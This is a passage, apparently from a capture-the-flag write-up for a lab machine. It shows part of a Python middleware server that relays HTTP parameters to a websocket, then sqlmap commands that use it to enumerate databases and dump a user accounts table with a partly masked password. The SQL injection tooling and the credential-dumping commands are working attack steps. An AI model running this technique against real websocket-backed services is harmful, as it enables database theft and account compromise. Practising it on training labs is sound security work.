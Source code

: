 ```python
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass

```

Run file python

```sh
python3 ./websoc.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
127.0.0.1 - - [25/Apr/2023 04:25:21] "GET /?id= HTTP/1.1" 200 -

```
Exploit SQL injection

```sh
sqlmap -u "http://localhost:8081/?id=1" --dbs
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump 

Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | Play***************2 | player   |
+------+-------------------+----------------------+----------+

```
